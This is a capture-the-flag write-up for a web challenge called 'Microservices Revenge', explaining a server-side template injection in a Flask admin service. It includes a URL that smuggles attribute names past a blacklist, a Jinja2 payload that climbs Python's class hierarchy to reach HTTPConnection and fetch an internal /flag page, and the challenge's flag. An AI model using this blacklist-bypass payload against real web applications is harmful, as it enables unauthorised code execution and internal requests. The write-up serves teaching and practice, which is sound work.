 # Microservices Revenge

### Challenge Details

I've upgraded the security of this website and added a new feature.
Can you still break it?

### Key Concepts

1. Server Side template injection in admin service
2. Find the HttpRequest object in the admin service
3. Create a payload to get the flag using SSTI


### Solution

1. Go to admin page and insert additional arguments in the URL.
2. Insert payload into the cookie for user.
3. Read the flag

```url
/?service=adminpage&cl=__class__&mro=__mro__&sub=__subclasses__&getitem=__getitem__
```

```python
{%set conn=""|attr(request.args.cl)|attr(request.args.mro)|attr(request.args.getitem)(1)|attr(request.args.sub)()|attr(request.args.getitem)(481)("flagpage")%}{{conn.request("GET","/flag")}}{{conn.getresponse().read()}}
```

### Learning Objectives

1. Server Side Template Injection
2. Writing templates in flask
3. Making a HTTP request using `HTTPConnection` class

### Flag
`grey{55t1_bl4ck1ist_byp455_t0_S5rf_538ad457e9a85747631b250e834ac12d}`
